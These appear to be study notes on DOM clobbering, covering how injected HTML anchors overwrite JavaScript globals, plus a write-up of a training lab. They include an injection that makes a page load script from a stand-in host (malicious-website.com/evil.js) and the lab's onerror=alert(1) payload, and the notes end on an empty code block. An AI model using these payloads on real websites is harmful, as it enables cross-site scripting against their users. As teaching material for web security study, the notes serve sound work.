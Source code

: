 # What is DOM clobbering?
- DOM clobbering is a technique in which you inject HTML into a page to manipulate the DOM and ultimately change the behavior of JavaScript on the page. 
- DOM clobbering is particularly useful in cases where XSS is not possible, but you can control some HTML on a page where the attributes id or name are whitelisted by the HTML filter. 
- The most common form of DOM clobbering uses an anchor element to overwrite a global variable, which is then used by the application in an unsafe way, such as generating a dynamic script URL.
- The term clobbering comes from the fact that you are "clobbering" a global variable or property of an object and overwriting it with a DOM node or HTML collection instead. 
- For example, you can use DOM objects to overwrite other JavaScript objects and exploit unsafe names, such as submit, to interfere with a form's actual submit() function.

# How to exploit DOM-clobbering vulnerabilities
- A common pattern used by JavaScript developers is:
```
var someObject = window.someObject || {};
```
- If you can control some of the HTML on the page, you can clobber the someObject reference with a DOM node, such as an anchor. 
- Consider the following code:
```
<script>
    window.onload = function(){
        let someObject = window.someObject || {};
        let script = document.createElement('script');
        script.src = someObject.url;
        document.body.appendChild(script);
    };
</script>
```
- To exploit this vulnerable code, you could inject the following HTML to clobber the someObject reference with an anchor element:
```
<a id=someObject><a id=someObject name=url href=//malicious-website.com/evil.js>
```
- As the two anchors use the same ID, the DOM groups them together in a DOM collection. 
- The DOM clobbering vector then overwrites the someObject reference with this DOM collection. A name attribute is used on the last anchor element in order to clobber the url property of the someObject object, which points to an external script.

# Lab: Exploiting DOM clobbering to enable XSS
- This lab contains a DOM-clobbering vulnerability. 
- The comment functionality allows "safe" HTML. 
- To solve this lab, construct an HTML injection that clobbers a variable and uses XSS to call the alert() function.
## Steps to solve the lab
- Browse through the app
- Look for Js files that has the could have sinks
- search for sinks in the JS you find
- So I found a variable called the defaultAvatar
- Constructing a comment like this
```
<a id="defaultAvatar"><a id="defaultAvatar" name="avatar" href="cid:&quot;onerror=alert(1)//">
```
# Note
- Always read Javascript files
- The page for a specific blog post imports the JavaScript file loadCommentsWithDomClobbering.js, which contains the following code:
```
```